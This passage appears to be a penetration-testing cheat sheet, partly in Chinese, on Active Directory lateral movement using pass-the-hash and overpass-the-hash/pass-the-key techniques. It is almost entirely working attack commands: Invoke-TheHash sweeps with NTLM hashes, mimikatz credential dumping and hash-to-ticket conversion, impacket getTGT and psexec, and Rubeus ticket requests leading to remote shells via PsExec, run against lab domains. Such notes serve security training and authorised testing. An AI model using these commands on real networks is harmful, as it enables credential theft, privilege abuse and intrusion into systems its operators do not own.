 ```bash
Invoke-SMBEnum -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 -Target dcorp-mgmt.dollarcorp.moneycorp.local -verbose

## Ivoke-Thehash, mix of all others
Invoke-TheHash -Type WMIExec -Target 192.168.100.0/24 -TargetExclude 192.168.100.50 -Username Administ -hash F6F38B793DB6A94BA04A52F1D3EE92F0

```


### Pass the Key

**Overpass the hash/Pass the Key(PTK)**, over abuse a NTLM user hash to gain a full kerberos Ticket Granting Ticket (TGT) or service ticket, which grants us access to another machine or service as that user.

+ 利用 user NTLM hash 获取Kerberos Ticket
+ In order to perform this attack, the **NTLM hash (or password) of the target user account is needed**.
+ once a user hash is obtained, a TGT can be requested for that account. Finally, it is possible to **access** any service or machine **where the user account has permissions**
+ especially useful in networks where NTLM protocol is disabled and only Kerberos is allowed as authentication protocol.
+ [hacktricks-over-pass-the-hash-pass-the-key](https://book.hacktricks.xyz/windows/active-directory-methodology/over-pass-the-hash-pass-the-key)

```bash
# mimikatz - psexec 
## 查看logon password
mimikatz # sekurlsa::logonpasswords

## turn NTLM hash to kerberos ticket 
mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

## authenticating a network share on dc, generate TGT
net use \\dc01
## list newly requested kerberos tickets
klist

## open remote connection using kerberos
.\PsExec.exe \\dc01 cmd.exe

# on linux/kali
## -aesKey [aes key], specify to use AES256
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass

# rebeus
.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```
